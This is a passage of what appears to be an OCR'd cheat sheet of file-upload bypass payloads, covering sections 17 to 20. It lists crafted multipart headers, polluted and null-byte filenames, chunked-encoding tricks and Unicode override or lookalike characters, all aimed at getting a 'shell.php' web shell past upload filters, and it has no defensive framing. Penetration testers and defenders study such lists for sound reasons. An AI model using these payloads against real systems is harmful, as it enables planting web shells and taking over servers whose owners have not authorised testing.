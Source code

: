 
## 1️⃣7️⃣ Malformed Headers in Upload (5)
Content-Disposition: form-data; name="file"; filename="shell.php  
Content-Disposition: form-data; filename="shell.php" name="file  
Missing Content-Type header  
Duplicate Content-Type header with different MIME  
MIME header split using CRLF injection  
**MIME-Type Related:** application/x-httpd-php, text/plain, image/jpeg, image/png

---

## 1️⃣8️⃣ HTTP Parameter Pollution in Upload (5)
filename="shell.php" filename="shell.jpg"  
filename="shell.jpg" filename="shell.php"  
filename*="UTF-8''shell.php"  
filename="shell.php?abc=1"  
filename="shell.php%00.jpg"  
**MIME-Type Related:** application/x-httpd-php, image/jpeg

---

## 1️⃣9️⃣ Chunked Transfer Encoding Tricks (5)
PHP hidden in second chunk  
Chunked request with early terminating chunk  
MIME headers split between chunks  
PHP payload obfuscated with chunk boundaries  
Overlapping chunk sizes causing parser confusion  
**MIME-Type Related:** application/x-httpd-php

---

## 2️⃣0️⃣ Rare Unicode Dot / Slash Bypasses (5)
file.php%E2%80%AE.jpg  
file.php%E2%80%AD.jpg  
file%u002Ephp  
file%u2215php  
file%u2024php  
**MIME-Type Related:** application/x-httpd-php, image/jpeg
